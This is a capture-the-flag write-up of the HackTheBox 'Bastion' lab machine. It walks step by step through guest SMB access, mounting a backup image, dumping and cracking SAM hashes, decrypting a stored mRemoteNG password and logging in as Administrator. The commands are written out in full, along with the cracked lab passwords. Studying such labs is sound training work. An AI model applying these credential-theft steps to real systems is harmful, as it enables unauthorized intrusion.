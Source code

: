 ```yaml
---
layout: post
title: Bastion (10.10.10.134) Writeup
description: >
  Hackthebox Bastion Writeup
image: /assets/img/bastion.png
noindex: true
---
```


<center><h3>Summary</h3></center>
<br>

- Access an open SMB share to find a full Windows backup file
- Grab the SAM hases and crack the password
- mRemoteNG is install and the password is stored inside the configuration file
- Use credentials to SSH as Administrator
<br>
First start with an Nmap scan

```
# Nmap 7.70 scan initiated Wed May 22 14:41:53 2019: nmap -sV -sC -T4 10.10.10.134
Nmap scan report for 10.10.10.134
Host is up (0.038s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -46m34s, deviation: 1h09m15s, median: -6m36s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-22T20:35:28+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-05-22 14:35:27
|_  start_date: 2019-05-19 22:23:54

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 22 14:42:11 2019 -- 1 IP address (1 host up) scanned in 17.97 seconds
```
<br>
A few ports open. Lets take a look at SMB. Running a quick smbmap I will see that there is a <b>Backups</b> directory that I have <b>READ, WRITE</b> privileges to.

```
# smbmap -u invalid -H 10.10.10.134
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.134...
[+] IP: 10.10.10.134:445        Name: 10.10.10.134                                      
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS
        IPC$                                                    READ ONLY
```
Next thing I did was connect to the <b>Backups</b> share folder. Once connected I was able to see a few files but the ones that interested me were the <b>notes.txt</b> and <b>WindowsImageBackup</b>.
```
# smbclient -U none //10.10.10.134/Backups password
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 17:48:51 2019
  ..                                  D        0  Tue Sep 17 17:48:51 2019
  note.txt                           AR      116  Tue Apr 16 06:10:09 2019
  rEFqURGnaS                          D        0  Tue Sep 17 17:48:51 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  WindowsImageBackup                  D        0  Fri Feb 22 07:44:02 2019
  ZWSfrgOAqs                          D        0  Tue Sep 17 17:42:12 2019

                7735807 blocks of size 4096. 2757009 blocks available
```
The <b>notes.txt</b> file mentions that I dont need to donwload the entire Windows Backups image to our host machine.
```
smb: \> more note.txt
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```
Instead of wasting time and downloading the files from the share, I decided to mount it. Before I was able to mount it I had to install a few things
```
# sudo apt install nfs-common
# sudo apt install cifs-utils
# sudo apt install libguestfs-tools
```
Once all those were downloaded I was able to mount the drive
```
mount -t cifs //10.10.10.134/Backups /mnt/Bastion
```
If you look around the <b>WindowsImageBackup</b> directory the you should ifnd two <b>.vhd</b> files.
```
# ls
9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
<output omitted>
```
To mount the <b>.vhd</b> files I used the tool <b>guestmount</b>.
```
# guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd
```
After enumerating around the box I realized I wont find any flags at this time. Next step was to dump the hashes from the SAM file. The SAM file is located at <b>Windows/System32/config</b> but it can't be access like any old file. To extract the hashes I will use a tool called <b>pwdump</b>.
```
# pwdump SYSTEM SAM

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Next I am going to use john to crack the hash. First I need to copy the hashes to a text file and the start john
```
# john --format=NT -w=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
```
Now I have a password <b>bureaulampje</b> for the user <b>L4mpje</b>. I can use this to SSH in. From this point I can grab the user flag located at <b>C:\Users\L4mpje\Desktop</b>.
```
l4mpje@BASTION C:\Users\L4mpje\Desktop>dir                                                       
 Volume in drive C has no label.                                                                 
 Volume Serial Number is 0CB3-C487                                                               

 Directory of C:\Users\L4mpje\Desktop                                                            

22-02-2019  16:27    <DIR>          .                                                            
22-02-2019  16:27    <DIR>          ..                                                           
23-02-2019  10:07                32 user.txt                                                     
               1 File(s)             32 bytes                                                    
               2 Dir(s)  11.292.332.032 bytes free                                               
```
After doing some serious enumerating I was able to find that mRemoteNG is installed on the system. Some further enumeration revealed a XML configuration file located at <b>C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml</b>. Reading the XML file I noticed the username <b>Administrator</b> along with something that resembles a password hash.
```
<Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a                     -44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVq                                                        
tKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP                 " PuttySession="Default Settings" Port="3389" ConnectToConsole="false"
```
My next thought was to decrypt the hash. After consulting my friend google, I was able to find something that could help me. These two links will help decrypt the password *[One](https://github.com/kmahyyg/mremoteng-decrypt)* and *[Two](https://github.com/kmahyyg/mremoteng-decrypt/releases)*.

Once you have everything ready I can now decrypt the hash.
```
# java -jar decipher mremoteng.jar aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==

User input: aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Use default password for cracking...
Decrypted output: thXLHM96BeKL0ER2
```
Last I can use the decrypted password to log in as Administrator and grab the flag. You can find the root flag in <b>C:\Users\Administrator\Desktop</b>
```
administrator@BASTION C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.                                                                               
 Volume Serial Number is 0CB3-C487                                              

 Directory of C:\Users\Administrator\Desktop                                                              

23-02-2019  10:40    <DIR>          .                                                  
23-02-2019  10:40    <DIR>          ..                                                               
23-02-2019  10:07                32 root.txt                                                            
               1 File(s)             32 bytes                                                             
               2 Dir(s)  11.291.758.592 bytes free
```
<br><br><br>
